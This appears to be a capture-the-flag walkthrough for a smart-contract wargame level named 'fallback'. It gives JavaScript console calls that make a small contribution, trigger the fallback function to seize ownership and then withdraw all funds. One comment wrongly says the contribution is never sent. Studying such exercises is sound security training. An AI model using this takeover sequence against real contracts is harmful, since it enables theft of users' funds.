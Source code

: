 fallback

// need to cause fallback function to be invoked; this will make attacker owner and allow withdraw to be called
// we do not known owner's contribution amount
// send ether with .sendTransaction({}) method

```javascript
await contract.owner.call() // will be rightful owner
await contract.getContribution() // will be 0 since never contributed
await contract.contribute({value:50}) // small contribution so that contributions (mapping) is greater than 0
await contract.getContribution() // will be 50, but this never actually sent to contract
await contract.sendTransaction({value:50}) // send actual ether with transaction; owner should now be attacker
await contract.withdraw() // withdraw all funds from contract
```
